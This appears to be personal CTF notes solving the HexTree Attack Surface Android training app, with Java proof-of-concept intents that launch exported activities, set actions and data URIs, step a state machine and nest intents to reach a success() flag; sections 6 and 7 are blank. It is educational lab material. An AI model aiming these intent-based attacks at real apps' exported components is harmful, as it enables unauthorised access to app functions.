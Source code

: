 
2025-06-09 10:57

Source: #android #CTF 
# Activity  

Take the apk in jadx and check the android manifest to find activities related to flag
click on the flag activity and we see a call to success() function 
our goal is to reach the success() function in all of these challenges
#### 1 - basic exported activity

note the package name and complete class name 

write this java code in your POC app
```java
public void onClick(View view) {  
    Intent expintent = new Intent();  
    expintent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag1Activity");  
    startActivity(expintent);  
}
```
#### 2 - Intent w extras

snippet from android manifest of flag2 
```xml
<intent-filter>
    <action android:name="io.hextree.action.GIVE_FLAG"/>
</intent-filter>
```

add the code below to the code we wrote for 1 - basic exported activity 
```java
expintent.setAction("io.hextree.action.GIVE_FLAG");
```
#### 3 - Intent w data URI

snippet from android manifest of flag 3 
```xml
<intent-filter>
    <action android:name="io.hextree.action.GIVE_FLAG"/>
    <data android:scheme="https"/>
</intent-filter>
```
on clicking flag4activity, it has an if loop that check if the data parsed has a particular URI, so we use that URI while creating the POC app

add the code below to the code we wrote for 1 - basic exported activity 
```java
expintent.setAction("io.hextree.action.GIVE_FLAG");
expintent.setData(Uri.parse("https://app.hextree.io/map/android"));
```

#### 4 - State machine 

when looking at the flag4activity code in jadx we see multiple actions nested in `if` loops - like so
```java
if (ordinal != 0) {
     if (ordinal != 1) {
        if (ordinal != 2) {
            if (ordinal == 3) {
                this.f.addTag(State.GET_FLAG);
                setCurrentState(State.INIT);
                success(this);
                Log.i("Flag4StateMachine", "solved");
                return;
            }
	        ...
        } else if ("GET_FLAG_ACTION".equals(action)) { ....
            Log.i("Flag4StateMachine", "Transitioned from BUILD to GET_FLAG");
            return;
        }
    } else if ("BUILD_ACTION".equals(action)) {
        ...
		... // more else if loops 
```

This hints that we might have to make multiple intents for every action 

```java
Intent exploitIntent3 = new Intent();  
exploitIntent3.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent3.setAction("GET_FLAG_ACTION");  
startActivity(exploitIntent3);  
  
Intent exploitIntent2 = new Intent();  
exploitIntent2.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent2.setAction("BUILD_ACTION");  
startActivity(exploitIntent2);  
  
Intent exploitIntent = new Intent();  
exploitIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent.setAction("PREPARE_ACTION");  
startActivity(exploitIntent);
```
#### 5 - Intent in intent

jump through multiple intent to reach `success()`, below is the code snippet from `flag5activity` from `jadx`.
```java
public void onCreate(Bundle bundle) {
	    ...
        Intent intent = getIntent();
        Intent intent2 = (Intent) intent.getParcelableExtra("android.intent.extra.INTENT");
        if (intent2 == null || intent2.getIntExtra("return", -1) != 42) {
            return;
        }
        this.f.addTag(42);
        Intent intent3 = (Intent) intent2.getParcelableExtra("nextIntent");
        this.nextIntent = intent3;
        if (intent3 == null || intent3.getStringExtra("reason") == null) {
            return;
        }
        ... // similar patterned code ahead 
```

We will use `putExtra()` here to call intent in an intent
```java
public void onClick(View view) {  
    Intent nextIntent = new Intent();  
    nextIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    nextIntent.putExtra("reason", "back");  
 
    Intent middleIntent = new Intent();  
    middleIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    middleIntent.putExtra("return", 42);           
    middleIntent.putExtra("nextIntent", nextIntent);  
  
    Intent outerIntent = new Intent();  
    outerIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    outerIntent.putExtra("android.intent.extra.INTENT", middleIntent);  
    startActivity(outerIntent);  
}
```

#### 6 - 



#### 7 - 



## References
https://www.youtube.com/watch?v=jnBmI1eD-og
https://itsfading.github.io/posts/HexTree-Attack-Surface-App-Solutions/